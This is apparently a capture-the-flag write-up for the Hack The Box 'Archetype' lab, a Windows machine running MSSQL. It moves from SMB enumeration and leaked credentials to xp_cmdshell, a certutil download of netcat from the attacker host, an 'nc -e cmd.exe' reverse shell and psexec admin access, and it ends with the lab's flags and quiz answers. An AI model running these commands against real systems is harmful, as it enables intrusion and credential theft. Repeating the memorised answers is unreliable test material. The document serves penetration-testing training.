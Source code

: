 # Archetype

## ip

target: 10.129.244.85

attker: 10.10.15.248

## Enumeration

```bash
└─$ nmap -p- -Pn --min-rate=1000 -sV 10.129.244.85
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-23 09:30 EST
Nmap scan report for 10.129.244.85
Host is up (0.32s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 165.50 seconds
```

- smb ports are open
- Microsoft SQL Server 2017 is running on port 1433

## smbclient

`smbclient -N -L \\\\10.129.244.85`:

```bash
└─$ smbclient -N -L \\\\10.129.244.85

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.244.85 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

access backups share and read contents `smbclient -N \\\\10.129.244.85\\backups`

![credentials.png](./img/archetype-dtsConfig.png)

=> `Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`

## impacket mssqlclient.py

`mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.244.85 -windows-auth`

```bash
Impacket v0.10.1.dev1+20230216.13520.d4c06e7f - Copyright 2022 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
```

try `xp_cmdshell`:

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

`enable_xp_cmdshell`

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> enable_xp_cmdshell  
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.

```

## create reverse shell

Download nc to target and create reverse shell:

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell certutil -urlcache -f http://10.10.15.248/nc.exe/nc64.exe C:\Users\sql_svc\Downloads\nc64.exe
output                                                
---------------------------------------------------   
****  Online  ****                                    

CertUtil: -URLCache command completed successfully.   

NULL                                                  

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell C:\Users\sql_svc\Downloads\nc64.exe -e cmd.exe 10.10.15.248 4242
```

```bash
┌──(kali㉿kali)-[~/Documents/tools/windows]
└─$ nc -lvp 4242                                  
listening on [any] 4242 ...
10.129.244.85: inverse host lookup failed: No address associated with name
connect to [10.10.15.248] from (UNKNOWN) [10.129.244.85] 49677
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

## user flag

```bash
C:\Windows\system32>type C:\Users\sql_svc\Desktop\user.txt
type C:\Users\sql_svc\Desktop\user.txt
3e7b102e78218e935bf3f4951fec21a3

```

## winPEAS

download winPEAS to target: `certutil.exe -urlcache -f http://10.10.15.248/winPEASx64.exe C:\Users\sql_svc\Downloads\winPEASx64.exe`

```bash
C:\Windows\system32> certutil.exe -urlcache -f http://10.10.15.248/winPEASx64.exe C:\Users\sql_svc\Downloads\winPEASx64.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

run:

```bash
C:\Users\sql_svc\Downloads\winPEASx64.exe
```

![admin-creds.png](./img/archetype-admin-creds.png)

`\\Archetype\backups /user:administrator MEGACORP_4dm1n!!`

## root flag

`psexec.py administrator:'MEGACORP_4dm1n!!'@10.129.244.85`:

```bash
┌──(kali㉿kali)-[~/Documents/tools/windows]
└─$ psexec.py administrator:'MEGACORP_4dm1n!!'@10.129.244.85
Impacket v0.10.1.dev1+20230216.13520.d4c06e7f - Copyright 2022 Fortra

[*] Requesting shares on 10.129.244.85.....
[*] Found writable share ADMIN$
[*] Uploading file IOeKKjuG.exe
[*] Opening SVCManager on 10.129.244.85.....
[*] Creating service KQlx on 10.129.244.85.....
[*] Starting service KQlx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32> 
```

get root flag:

```bash
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
b91ccec3305e98240082d4474b848528
```

## Task

Task 1: Which TCP port is hosting a database server?: `1433`

Task 2: What is the name of the non-Administrative share available over SMB?: `backups`

Task 3: What is the password identified in the file on the SMB share?: `M3g4c0rp123`

Task 4: What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?: `mssqlclient.py`

Task 5: What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?: `xp_cmdshell`

Task 6: What script can be used in order to search possible paths to escalate privileges on Windows hosts?: `winpeas`

Task 7: What file contains the administrator's password?: `ConsoleHost_history.txt`

Submit user flag: done

Submit root flag: done

## References

<https://kylemistele.medium.com/impacket-deep-dives-vol-1-command-execution-abb0144a351d#:~:text=One%20of%20the%20most%20commonly>

<https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/>

certutil: <https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil>

winpeas: <https://github.com/carlospolop/PEASS-ng/releases/tag/20230219>
